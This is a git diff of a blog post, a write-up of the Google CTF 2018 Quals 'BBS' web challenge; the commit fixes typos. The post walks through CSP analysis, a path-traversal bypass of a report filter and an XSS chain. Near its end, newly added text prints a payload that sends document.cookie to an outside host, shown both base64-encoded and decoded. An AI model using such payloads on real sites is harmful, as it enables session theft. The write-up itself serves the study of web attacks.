

Before and after one commit to koczkatamas/blog, a Jekyll site: the page built from _posts/2018-06-30-googlectf-2018-quals-web-bbs.md, in a window 1280 px wide and 1400 px high, scrolled down 6575 px, cut to the strip 0-1348 px from the top of the window. Shown: the whole strip at 83% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
BBS: more typos

```diff
--- a/_posts/2018-06-30-googlectf-2018-quals-web-bbs.md
+++ b/_posts/2018-06-30-googlectf-2018-quals-web-bbs.md
@@ -29,17 +29,17 @@
 
 ![alt]({{ site.url }}/images/gctf2018quals/bbs_profile.png)
 
-For avatar image only PNG files were accepted (really file type mattered, not the extension) but they were resized to 64x64 PNGs (in every case, even if you uploaded a PNG with the exact same size). The resized PNG was saved to `https://bbs.web.ctfcompetition.com/avatar/<md5_hash_of_the_resized_png>`
+For avatar images only PNG files were accepted (the file type mattered, not the extension) but they were resized to 64x64 PNGs (in every case, even if you uploaded a PNG with the exact same size). The resized PNG was saved to `https://bbs.web.ctfcompetition.com/avatar/<md5_hash_of_the_resized_png>`
 
 # Let's look under the hood!
 
-So after the other web challenges (we solved this after the other 4 one) I first checked the headers, especially the [Content Security Policy header](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP).
+So after the other web challenges (we solved this after the other 4 web ones) I first checked the headers, especially the [Content Security Policy header](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP).
 
 {% highlight text %}
 Content-Security-Policy: default-src 'self' 'unsafe-inline'; script-src 'self' 'unsafe-inline' 'unsafe-eval';
 {% endhighlight %}
 
-This means if we found an XSS then we can inject `<script>` tags and execute code (that's the `unsafe-inline`), but only on the BBS challenge domain (because of the `self`) and we cannot communicate with other domains (eg. I could not download files from my domain).
+This means if we find an XSS then we can inject `<script>` tags and execute code (that's the `unsafe-inline`), but only on the BBS challenge domain (because of the `self`) and we cannot communicate with other domains (eg. I could not download files from my domain).
 
 The [website's source](view-source:https://bbs.web.ctfcompetition.com/) revealed that most of the logic was in the [app.js](https://bbs.web.ctfcompetition.com/assets/app.js) file.
 
@@ -134,31 +138,31 @@
 
 But even if this did work, we could not modify the `/post?p=` parameter.
 
-Actually the solution is easier than thought, you the `/report` endpoint just checks that the url is in format `/admin/<id>`, so this URL will bypass the filter:
+Actually the solution is easier than thought, the `/report` endpoint just checks that the url is in format `/admin/<id>`, so this URL will bypass the filter:
 
 {% highlight javascript %}
 $.post('/report', { 'post': '/admin/1/../../post?p[url]=/avatar/223d6cf0f4b320cdd3158927d5934634&p[headers][Range]=bytes=40-200' })
 {% endhighlight %}
 
-Okay, we put together everything, we spent only 1.5 hours solving the challenge till now, we just need a PNG image which contains our base64 payload. It should be simple, right?
+Okay, now that we put together everything, we spent only 1.5 hours solving the challenge till now, we just need a PNG image which contains our base64 payload. It should be simple, right?
 
 # That moment when you feel you won't solve this challenge any time soon
 
-Well yeah, it should be kind of simple. As mentioned earlier the uploaded PNG is resized every time and all the metadata (eg. comment sections) are dropped, only image data is used.
+Well yeah, it should be kind of simple. As mentioned earlier the uploaded PNG is resized every time and all the metadata (eg. comment sections) are stripped, only image data is used.
 
 The image data is compressed with zlib. But if you use a high entropy input the compression engine will use the input bytes literally, so you can 'bypass' the compression part and inject your payload directly.
 
 Or can you?
 
-I've spend the next **3.5 hours** to create a PNG which contained my base64 payload. After creating approximately ~1369 PNG files, I gave up. ;)
+I've spent the next **3.5 hours** to create a PNG which contained my base64 payload. After creating approximately ~1369 PNG files, I gave up. ;)
 
-The main problem was that the PNG encoder tries to minimalize the file size by [applying filtering](https://en.wikipedia.org/wiki/Portable_Network_Graphics#Filtering) to every row before sending into zlib. And I could choose any input filtering method for my payload to PNG encoder changed it something else.
+The main problem was that the PNG encoder tries to minimalize the file size by [applying filtering](https://en.wikipedia.org/wiki/Portable_Network_Graphics#Filtering) to every row before sending into zlib. And even if I chose any input filtering method for my payload, the PNG encoder always changed it to something else.
 
-I went so mad, I even thought it must be a custom PNG encoder created for this challenges just to make our job harder. As there was only 1 solve on the challenge that time I thought it could be a valid theory...
+I went so mad, I even thought it must be some custom PNG encoder created only for this challenges just to make our job harder. As there was only 1 solve on the challenge that time so I thought this could be even a valid theory...
 
 So I tried to experiment with various tricks to bypass this 'tricky converter' like generating such input which will contain my payload for every possible filter mode and stuff like that.
 
-After the competition I spoke with the challenge author (phiber) and he told me this was of course not try, in the opposite he used the most generic conversion code that can be used:
+After the competition I spoke with the challenge author (phiber) and he told me this was of course not true, in the opposite of that, he used the most generic conversion code that can be used:
 
 {% highlight php %}
 $im = imagecreatefrompng($path)
@@ -166,7 +170,7 @@
 imagecopyresampled($resized, $im, 0, 0, 0, 0, 64, 64, $width, $height);
 {% endhighlight %}
 
-Of course I did not know this that time, but...
+Of course I did not know this at time of solving the challenge, but...
 
 ![alt](http://i0.kym-cdn.com/entries/icons/original/000/000/554/picard-facepalm.jpg)
 
@@ -178,9 +182,9 @@
 
 # That moment when you've just given up
 
-So it was only 30 minutes left from the Google CTF Quals and it was clear I won't be able to generate a correct PNG, but as a last time effort I looked into the code again...
+So it was only 30 minutes left from the Google CTF Quals and it was clear I won't be able to generate a correct PNG in time, but as a last time effort I looked into the code again...
 
-Also I knew from the latest 3.5 hours of trying that I can inject smaller payload as that won't be changed, but the smallest base64 payload was not small enough. Maybe a raw JS payload?
+Also I knew from the latest 3.5 hours of trying that I can inject smaller payload as that won't be changed, but the smallest base64 payload was not small enough. Maybe a raw JS payload? The smallest one I could create was
 
 {% highlight javascript %}
 $(atob(location.hash.slice(1)))
@@ -210,7 +214,13 @@
 $.post('/report', { 'post': '/admin/1/../../post?p[url]=/avatar/0939691cf1a771225f6ba39bb9934686&p[headers][Range]=bytes=12326-12356&p[dataType]=script#PGltZyBzcmM9eCBvbmVycm9yPSJsb2NhdGlvbj0nLy9jdWJ5LmRhdGFnbG9iZS5ldS94L0ZMQUcnK2RvY3VtZW50LmNvb2tpZSIgLz4=' })
 {% endhighlight %}
 
-Which finally gave me the flag:
+This was the encoded payload, but probably others were working as well (but the `location=` type redirection is important as CSP blocks almost every other way):
+
+{% highlight html %}
+<img src=x onerror="location='//cuby.dataglobe.eu/x/FLAG'+document.cookie" />
+{% endhighlight %}
+
+Finally I've got the flag:
 
 {% highlight text %}
 CTF{yOu_HaVe_Been_b&}
```
Also changed, not shown: other parts of _posts/2018-06-30-googlectf-2018-quals-web-bbs.md (+10 -6 lines).
